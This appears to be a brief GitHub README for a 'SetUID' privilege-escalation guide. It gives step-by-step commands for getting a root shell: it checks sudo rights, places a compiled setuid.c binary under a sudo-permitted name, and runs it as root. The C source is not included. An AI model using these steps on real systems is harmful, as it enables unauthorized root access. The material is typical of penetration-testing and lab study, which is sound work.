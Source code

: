 # SetUID
My personal guide to get privesc

# How to Use 
Run ```sudo -l``` <br/>
Read which commands can be executed by root (for example ```test/nameFile```) <br/>
Run ```mkdir test``` <br/>
Move **setuid.c** in **test** <br/>
```mv setuid.c test``` <br/>
Compile script <br/>
```gcc setuid.c -o nameFile``` <br/>
Run as root <br/>
```sudo -u root nameFile``` <br/>
Get Shell <br/>
